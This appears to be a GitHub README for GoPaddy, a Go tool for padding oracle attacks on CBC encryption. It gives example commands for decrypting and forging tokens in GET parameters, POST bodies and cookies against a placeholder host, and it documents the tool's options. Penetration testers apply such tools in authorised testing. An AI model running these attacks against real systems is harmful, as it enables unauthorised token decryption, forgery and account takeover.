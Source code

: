 # GoPaddy

A fast, Golang, concurrent tool to perform Padding Oracle attacks against CBC mode encryption.

![demo](demo.gif)


### Installation/Update
```console
go get -u github.com/glebarez/GoPaddy
```

### Examples
- Decrypt tokens in GET parameters
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Decrypt tokens in GET parameters (lowercase hex)
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -e lhex "2a7bc39262b122e58b13a95de49677b056c41a577f9d6904b921c0b0763c2cf3"
````

- POST data
```console
GoPaddy -u "http://vulnerable.com/login" -post "token=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Cookies
```console
GoPaddy -u "http://vulnerable.com/login" -cookie "auth=$" -err "Invalid padding" "u7bvLewln6PJ670Gnj3hnE40L0SqG8e6"
````

- Encrypt token in GET parameter
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -enc "EncryptMe"
```

- Encrypt token in GET parameter (lowercase hex)
```console
GoPaddy -u "http://vulnerable.com/login?token=$" -err "Invalid padding" -enc -e lhex "EncryptMe"
```

### Note on tool chaining
All the fancy stuff (logo and progress tracking) is written to STDERR. <br>
Thus you may safely redirect STDOUT to a file, or pipe it with another tool. <br>
Only successfully processed values will be written to redirection target. <br>
You can supply (multiple) input values into STDIN as well.

### Usage
```console
GoPaddy [OPTIONS] [INPUT]
```

INPUT:

	In decrypt mode:
	the encoded (as plaintext) value of valid cipher, whose value is to be decrypted
	if not passed, GoPaddy will use STDIN, reading ciphers line by line
	The provided cipher must be encoded as specified in -e and -r options.

	In encrypt mode:
	the plaintext to be encrypted
	if not passed, GoPaddy will use STDIN, reading plaintexts line by line

	

OPTIONS:

-u

	Vulnerable URL (one that produces padding errors).
    Use $ character to define cipher placeholder for GET request.
	Example:
    	if URL is "http://vulnerable.com/?parameter=$"
		then HTTP request will be sent as "http://example.com/?parameter=payload"
		the payload will be filled-in as a cipher, encoded using 
		specified encoder and replacement rules (see options: -e, -r)

-err

	A padding error string as presented by the server.
    HTTP responses will be searched for this string to detect 
	padding oracle. Regex is supported.
    Only response body is matched.

-e

	Encoding, used by the server to encode binary ciphertext in HTTP context.
	This option is used in conjunction with -r option (see below)
	Supported values:
		b64 (standard base64) *default*
		lhex (lowercase hex)

-enc

    Encrypt mode
-r

	Character replacement rules that server applies to encoded ciphertext.
	Use odd-length strings, consisting of character pairs: <OLD><NEW>.
	Example:
		If server uses base64, but replaces '/' with '!', '+' with '-', '=' with '~',
		then use -r "/!+-=~"

-cookie

	Cookie value to be decrypted in HTTP requests.
	Use $ character to define cipher placeholder.

-post

	If you need to perform POST requests (instead of GET), 
	then provide string payload for POST request body in this parameter.
	Use $ character to define cipher placeholder.
        Example: 
                  -post "vuln_param=$"
          

-ct

	Content-Type to be set in HTTP requests.
    This option is only effective when -post option is used.
	If not specified, Content-Type will be inferred automatically
    based on data, provided in -post option.
	
-b

	Block length used in encrypting (always 16 for AES)
	Supported values:
		8u
		16 *default*
		32

-p

	Number of parallel HTTP connections established to target server [1-256]
		30 *default*
		
-proxy

	HTTP proxy. e.g. use -proxy "http://localhost:8080" for Burp or ZAP

-nologo

	Don't show logo. Useful when GoPaddy is used in tool chaining and called many times.
